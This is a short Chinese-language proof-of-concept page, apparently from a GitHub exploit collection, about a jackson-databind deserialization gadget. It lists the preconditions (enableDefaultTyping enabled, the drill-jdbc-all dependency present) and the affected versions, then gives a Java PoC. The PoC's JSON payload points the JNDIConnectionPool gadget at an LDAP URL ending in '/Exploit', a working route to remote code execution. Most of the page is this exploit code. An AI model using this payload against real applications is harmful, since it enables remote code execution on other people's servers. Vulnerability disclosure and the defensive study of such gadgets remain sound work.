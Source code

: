 <languages />

利用条件
--------

开启enableDefaultTyping()

使用了org.apache.drill.exec:drill-jdbc-all第三方依赖

影响版本
--------

    jackson-databind before 2.9.10.4
    jackson-databind before 2.8.11.6
    jackson-databind before 2.7.9.7

POC
---

    package com.jacksonTest;

    import com.fasterxml.jackson.databind.ObjectMapper;

    import java.io.IOException;

    public class Poc {
       public static void main(String[] args) throws Exception {
           ObjectMapper mapper = new ObjectMapper();
           mapper.enableDefaultTyping();
           String payload = "[\"oadd.org.apache.xalan.lib.sql.JNDIConnectionPool\",{\"jndiPath\":\"ldap://127.0.0.1:1099/Exploit\"}]";
           try {
               Object obj = mapper.readValue(payload, Object.class);
               mapper.writeValueAsString(obj);
           } catch (IOException e) {
               e.printStackTrace();
           }
       }
    }